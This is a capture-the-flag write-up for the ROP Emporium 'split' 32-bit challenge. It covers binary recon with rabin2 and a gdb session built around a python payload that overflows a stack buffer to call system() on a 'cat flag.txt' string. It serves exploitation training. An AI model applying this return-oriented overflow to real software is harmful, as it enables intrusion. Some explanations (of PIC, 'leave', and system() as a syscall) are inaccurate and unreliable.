

# SPLIT Writeup

## 32

Lets start with rabin2:
```bash
rabin2 -I split32
```
it gives us useful info on the binary

```bash
...
canary   false
endian   little
...
nx       true
...
pic      false
...
```
We gather that there is no canary protection on the stack frames. If we find a vuln buf we can overflow it and overwrite the EIP to jump where we want. Also, endianess is useful to know in which format the injected addresses has to be written, however, Intel always use little endian so it is an extra info. NX (Not eXecutable) means that the data section is not executable. PIC (Position Independent Code) is false, so there is no linked shared library.

Lets check also the strings contained in the binary

```bash
rabin2 -z split32
```
Our beloved _/bin/cat flag.txt_ exists also in this binary (LOL),
its vaddr will probably be useful for us.

Looking at the disassembled binary.
The _pwnme_ function allocates a buffer of size 32
and then calls fgets passing a buffer size of 92B,
so we can hopefully exploit these bytes of the buffer.

There is another interesting function in the binary: _usefulFunction_ can
be indeed useful cause it contains the _system()_ call. So, like in ret2win,
we would like to execute it. In this binary the _system()_ call executes
the string located at the _0x08048747_ vaddr, which is the _ls_ command.
We would like to execute the string located at the _0x0804a030_ vaddr,
the _cat <flag>_ command.

To achieve this (calling _system_ with the correct params)
we need first to understand how
the x86 calling conventions work. Basically, we just need to know that the
 params for syscalls are passed by pushing them on the stack
(this is not true for other architectures, which instead use registers).

We will overflow the buffer until reaching a gadget.
A gadget is a set of asm instructions which enable us to chain our addresses
to achieve the desired effect. In this case we want to overflow the buf until
reaching the gadget (here the gadget is the function epilogue)
```bash
leave
ret
```
This moves ESP (stack ptr) in EBP (base ptr),
then pops the address on the top
of the stack into the EIP (instruction ptr)
and then jumps to the addr stored in the EIP effectively
executing it.

[Side Note:start]

the "E" prefix in the registers' names indicates that these register
covers the less significant 32bits,i.e., if you have a 64bit arch you will
probably have lets say RAX which is a 64 bit accumulator register. Well,
EAX covers its 32 less significant bits. So, it is easy explained why you can
run this 32bit binary in your 64bit arch.

[Side Note:end]

So we chain **vaddr_system+vaddr_cat_string** to get system popped into EIP
and then execute with the vaddr of cat on the top of the stack (passed as param).

It is easier to view it in the following gdb-peda screenshot



### Exploit steps

The procedure I have followed to get the flag is similar to the one explained
in [ret2win](https://github.com/StefanoMunari/rop-emporium/blob/ret2win/ret2win/ret2win.md) solution. First, I've observed the behavior of the pwnme stack by injecting
strings of different sizes. Once I've understood how to exploit it,
I've crafted a string of the required size to obtain the desired
behavior (get the flag).

```bash
# create a named pipe
mkfifo /tmp/pipe
# add the command to the pipe
python -c 'print "A"*44+"\x57\x86\x04\x08"+"\x30\xa0\x04\x08"' > /tmp/pipe &
# execute the vulnerable function and inspect its state
gdb -q split32
# set a breakpoint
break pwnme
# execute the vulnerable function by reading the previous created named-pipe
run < /tmp/pipe
# look through the next n instructions/or simply press 'Enter' n times
n
# until reaching fgets, which loads our malicious string.
# look at the epilogue of this function (pwnme)
# we have system in the EIP and cat on the top of the stack,
# we will get our flag when the call will be executed!
```

## 64

## Tools

* [gdb-peda](https://github.com/longld/peda): a python extension for gdb. Useful to inspect binaries, search for patterns, gadgets, generate shellcodes, etc.
* [rabin2](https://www.gsp.com/cgi-bin/man.cgi?section=1&topic=rabin2): binary info extractor